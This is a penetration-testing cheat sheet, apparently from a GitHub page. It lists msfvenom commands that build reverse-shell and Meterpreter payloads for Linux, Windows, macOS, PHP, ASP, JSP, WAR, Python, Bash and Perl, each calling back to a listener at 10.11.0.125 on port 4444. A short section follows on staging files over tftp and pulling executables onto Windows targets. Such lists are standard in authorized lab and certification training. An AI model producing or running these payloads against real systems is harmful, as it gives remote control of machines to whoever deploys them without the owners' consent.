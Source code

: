 ## MSFVenom Payloads

**Linux**
>msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f elf > shell.elf

**Windows**
>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f exe > shell.exe

**Mac**
>msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f macho > shell.macho 

**PHP**
>msfvenom -p php/meterpreter_reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f raw > shell.php

**ASP**
>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f asp > shell.asp

**JSP**
>msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f raw > shell.jsp

**WAR**
>msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f war > shell.war 

**Python**
>msfvenom -p cmd/unix/reverse_python LHOST=10.11.0.125 LPORT=4444 -f raw > shell.py

**Bash**
>msfvenom -p cmd/unix/reverse_bash LHOST=10.11.0.125 LPORT=4444 -f raw > shell.sh

**Perl**
>msfvenom -p cmd/unix/reverse_perl LHOST=10.11.0.125 LPORT=4444 -f raw > shell.pl 


## File Transfers

**tftp**

Installed on Windows XP up to 2003 by default

>mkdir /tftp

>aftpd --daemon --port 69 /tftp
>cp /file/you/want /tftp

On Windows 
>tftp -i --yourIP-- get file.exe

